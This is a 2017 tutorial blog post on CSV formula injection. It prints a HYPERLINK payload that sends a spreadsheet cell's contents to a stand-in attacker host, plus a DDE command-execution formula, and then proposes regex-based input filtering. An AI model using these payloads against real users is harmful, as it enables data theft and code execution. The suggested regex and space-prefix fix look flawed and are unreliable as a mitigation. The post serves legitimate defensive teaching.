:slug: is-csv-secure/
:date: 2017-12-22
:category: attacks
:subtitle: Defining CSV injection vulnerabilities
:tags: security, csv, code, web
:image: cover.png
:alt: Blank CSV document icon
:description: Comma-Separated Values file (CSV) is a common extension in data files used in several application fields. However CSV files present a serious security issue that must be considered before using this extension. In this article we present a CSV vulnerability most people ignore.
:keywords: CSV, Security, Vulnerability, Code, Web, Spreadsheet.
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Ingeniero de Sistemas, Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/Wpnoqo2plFA

= Is that CSV Secure?

Comma-Separated Values file (or CSV) is a type of file that stores tabular data,
numbers and text in plain text. Each line of the file is a data record and
each record consists of one or more fields separated by commas. CSV is a common
data exchange format that is widely supported by consumer, business, and
scientific applications. As an example, a user may need to transfer information
from a database program that stores data in a proprietary format, to a
spreadsheet that uses a completely different format. The database program most
likely can export its data as "CSV"; the exported CSV file can then be imported
by the spreadsheet program.



There is a vulnerability in this types of format that the most of programmers
ignores, that is "CSV Injection".
As link:https://www.owasp.org/index.php/CSV-Injection[OWASP] says,
it occurs when websites embed untrusted input inside CSV files,
when a spreadsheet program is used to open a CSV file,
any cell starting with '*=*' is considered as a formula
and crafted formulas can be used to malicious attacks.

== CSV Injection Example

We have a page that stores data on a table and exports it on a CSV file



We put some normal data and nothing happens




But what happens if we put a formula like =2+5 in a field?




On our table nothing happens, but when we open the CSV file we get the result of
the formula that we introduced. This can be very dangerous if someone introduce
a more dangerous code like

----
=HYPERLINK("http://dangerous.com?x="&A3&"[CR]","Error fetching info: Click me to resolve.")
----

When the user open the file it shows a link with our malicious site



Also we can execute commands on the target with this formula injection, in where
we open the calc when someone opens the CSV file

----
=cmd|' /C calc'!A0
----

It shows some warnings but the user trust in the source of the file and accept

image::first-warning.png[warning-1]


And then the code execution



The effectiveness of this vulnerability is that the user trust on the source of
the file without asking himself if is the normal behaviour when someone opens a
CSV file and the program asks form permission

=== Solution

* First is user awareness, because Windows shows an alert when someone puts
command execution code in the CSV file like we've seen

* Second, input validation, the most common characters to do this attack are:

----
=,+,-,@
----

A developer could make a validation like this regex

.validation.js
[source, javascript,linenums]
----
var regexp = new RegExp(/([=,-,+,@])/g);
----

And blocking this types of input, also, can put a space between the dangerous
character like ' =' to mitigate this vulnerability

[source, javascript,linenums]
----
if(regexp.test(formData.sdata1)){
  formData.sdata1 = " "+formData.sdata1
}
if(regexp.test(formData.sdata2)){
  formData.sdata2 = " "+formData.sdata2
}
----

In this example we can see that the spreadsheet program doesn't calculate the
formula and our input is secure




The source code of the page for testing can be found [button]#link:csvinjection.zip[here]#
